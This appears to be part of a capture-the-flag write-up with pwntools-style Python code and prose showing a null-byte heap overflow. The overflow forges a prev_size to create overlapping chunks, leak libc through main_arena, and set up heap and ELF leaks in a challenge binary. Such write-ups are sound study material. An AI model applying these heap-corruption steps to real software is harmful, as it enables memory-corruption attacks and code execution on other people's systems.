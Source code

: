 ```python
alloc_a(0xf0,'A' * 0xf0)#sb1 #0
alloc_a(0x70,'B' * 0x70)#fb1 #1
alloc_a(0xf0,'C' * 0xf0)#sb2 #2
alloc_a(0x30,'D' * 0x30)#fb2 #3

delete_a(0)
delete_a(1)
# null byte heap overflow
# prev_size = 0x180
# prev_in_use = 0
alloc_a(0x78,'E' * 0x70 + p64(0x180)) #4

# first fastbin gets overlapped
delete_a(2)

alloc_a(0xf0,'F' * 0xf0) #5
#gdb.attach(r)

# libc leak
l = show_a(4)
rename_a(4, l)

libc_base = u64(l + "\x00" * 2) - libc.symbols['__malloc_hook'] - 0x68
log.info("libc : " + hex(libc_base))
```

First I allocated 4 chunks (*smallbins and fastbins*)  
**Note**- all the chunks below are alien `name`  
`sb1 (about to be merged with sb2) | fb1 (about to be overlapped) | sb2 (about to get overflowed into by fb1) | fb2`  
Delete first two, then allocate `fb1` again to overflow null byte into next `sb2` and put a fake `prev_size` of 0x180. Then we delete `sb2`, so it will see that previous chunk is free base on its `prev_in_use` being cleared. It will go back `prev_size` in memory to find previous chunk and will be merged with it. This will create a fake chunk of 0x280 bytes that will be overlapping our allocated `fb1`.  
Now we allocate a chunk of 0x100 from fake chunk so that new free chunk remaining will have the same address as our `fb1`. Here we can make use of rename functionality of binary to leak the address of `main_arena` and hence `libc_base`. If you see I renamed it again to same value that I leaked, just so to prevent any unintentional behavior.  

**Leaking Heap and ELF**

Yes I know we want to find ELF leak why am I trying to get heap address? There is a reason.  

Whats happening?  
- We want to leak ELF address
- Samurai `sword` names are stored on .bss
- Address of `sword` names are stored on heap in `samurai` structure
- An address of heap is in `alien` pointing to alien's `name`  

What to do?  
- Leak heap address of `name` by having an overlap of `name` (*of alien 1*) and `alien` (*alien 2*) struct and calling rename functionality on *alien 1*
- Calculate address of `samurai`s structure using heap leak
- Put the address of `samurai` in *alien 2* by calling rename on *alien 1*
- Now call rename on *alien 1* to leak address of `sword` which is our ELF leaked
